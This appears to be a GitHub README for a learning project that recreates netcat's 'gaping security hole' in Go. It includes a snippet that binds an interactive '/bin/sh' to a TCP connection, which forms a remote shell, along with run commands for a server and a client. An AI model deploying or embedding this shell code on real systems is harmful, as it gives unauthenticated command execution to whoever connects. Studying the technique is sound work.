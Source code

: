 # Netcat gaping security hole

Creating the Netcat gaping security hole in Golang.

## What was Netcat Gaping Security Hole?
Netcat is the TCP/IP swiss army knife, a more flexible, scriptable version of Telnet. It contains a feature
that allows stdin and stdout of any arbitary program to be redirected over TCP, enabling an attacker to run any shell
scripts. 

### Creating in Golang
With creating a Pipe, I allow stdin and stdout to redirected over TCP:
```go
// creating the shell
cmd := exec.Command("/bin/sh", "-i")
// creating our pipeline
rp, wp := io.Pipe()

// binding stdin and stdout to user connection and pipe output
cmd.Stdin = conn
cmd.Stdout = wp

// copy the input into pipeline
go io.Copy(conn, rp)
```

### How to run?
Server:
```
go run main.go
```

Client:
``` 
go run client/client.go
```
